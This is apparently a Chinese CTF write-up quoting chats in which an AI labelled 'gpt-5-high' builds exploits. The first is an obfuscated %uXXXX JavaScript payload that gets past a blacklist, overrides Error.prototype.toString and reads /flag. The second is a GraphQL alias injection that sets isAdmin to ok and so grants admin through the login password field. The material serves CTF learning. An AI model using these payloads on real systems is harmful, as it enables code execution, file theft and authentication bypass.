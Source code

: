 ```text
确保长度凑成 4 的倍数，避免使用 '=' 补位。（若不得不补位，也可改成两段拼接：把两个正则字面量用 + 连接，运行时拼接成一个完整 base64 串，再 atob 解码。加号在白名单里且 + 会进行字符串拼接。）
整体提交只出现字母/数字/+/ / ( ) 空格与少量算术，绕开黑名单的 %xx 与危险标识符；真正的点号/引号/方括号等都只存在于运行时解码出的字符串中。
如果你的运行环境的 atob 对首尾的斜杠敏感，实践中的两种处理法：
设计 base64 使解码结果以一个无害的正则字面量起始，比如 "/x/" 后跟一个空格，再跟赋值语句；末尾可再加个分号或行尾注释 // 吃掉尾部不必要字符。
或者把 base64 切成两段正则：atob(/AAAA/.source+/BBBB/.source)，拼接后刚好是纯净的 base64 字符串（不含额外的 /），这样 atob 输入就干净了。
成功标志：第一次请求 200 或 400 都无所谓（它只是设置了原型）；第二次 throw Error(0) 应当在返回的 JSON 里看到 { error: "<flag内容>" }。
如果你愿意，我可以把上述思路落成一组可直接发起的两条 HTTP 请求载荷（帮你把 base64 串精确构造好，包含长度与对齐处理），并给出 curl 示例，便于你直接打靶。需要的话告诉我服务端是否严格的 atob 以及是否允许多段拼接，我来给你最终可复制的两条 payload。

用户：
正则表达式的字符串里面有开头和结尾的/，atob返回了乱码

gpt-5-high：
对，/regex/.toString() 会带首尾斜杠，直接喂给 atob 会把原本对齐好的 base64 搞乱。绕法：别用 atob，改用 unescape 搭配 %uXXXX，把要执行的代码按 Unicode 转义塞进一个正则字面量里；首尾多出来的两个斜杠用“// + 行分隔符”吃掉。

第1次请求（安装钩子：覆盖 Error.prototype.toString）：
setTimeout(unescape(/%u002F%u002F%u2028%u0045%u0072%u0072%u006F%u0072%u002E%u0070%u0072%u006F%u0074%u006F%u0074%u0079%u0070%u0065%u002E%u0074%u006F%u0053%u0074%u0072%u0069%u006E%u0067%u003D%u0066%u0075%u006E%u0063%u0074%u0069%u006F%u006E%u0028%u0029%u007B%u0072%u0065%u0074%u0075%u0072%u006E%u0020%u0044%u0065%u006E%u006F%u002E%u0072%u0065%u0061%u0064%u0054%u0065%u0078%u0074%u0046%u0069%u006C%u0065%u0053%u0079%u006E%u0063%u0028%u0027%u002F%u0066%u006C%u0061%u0067%u0027%u0029%u007D%u2028%u002F%u002F/))

说明：

这是 setTimeout(unescape(<一个正则>))。正则转字符串会有首尾“/”，我们在开头解出“//”再放一个 U+2028 行分隔符，把那一行注释掉；结尾也放一个 U+2028 再放“//”，把尾部的“/”吃成注释内容。
正则里面全是 %uXXXX，不触发你们的 %[0-9a-f]{2} 黑名单；源码也没用到字符串字面量/成员访问。

第2次请求（取 flag）：
throw Error(0)

返回的 JSON 里 error 字段就是 flag。

如果你的运行环境里没有全局 unescape（极少见，但有可能），告诉我一声，我给你改成另一路径。
```

# 统一身份认证【web-graphauth】

## Flag 1】并抢了【你的

感谢提示，让我发现了“别名”这个神奇的东西。我就想，这个“别名”可不可以跨行。于是我写了一个POC，但还是失败了，于是拷打AI：

```text
用户：
我注册了一个user1: pass1。打算使用下面的poc，但是失败了。报错登录失败（即语法错误），请帮我修改
pass1") { login(username: $username, password: $password) { ok username isAdmin: ok } } { fake: #
你编写POC的时候需要注意：#井号只能注释掉所在行！！！剩下的行依然存在！！！

gpt-5-high：
概览
你的思路是正确的：利用 GraphQL 的别名把 isAdmin 替换成 ok，从而让后端把 isAdmin 当 True 设置进 session。但你原 PoC 多了一个多余的 }，导致文档被切成两个 operation，GraphQL 要求提供 operationName，因而语法报错。

可用 PoC（填到登录密码里）
pass1") { login(username: $username, password: $password) { ok username isAdmin: ok } fake: #

去掉你原 PoC 里 login 子选择集后面的一个多余的 }，只保留一个 } 用来闭合 login 的子选择集，不要闭合最外层的 operation。
保留 { fake: # 这段，让后面的原始 login(...) 行自动变成 fake: login(...)，避免与我们注入的 login 冲突。
```
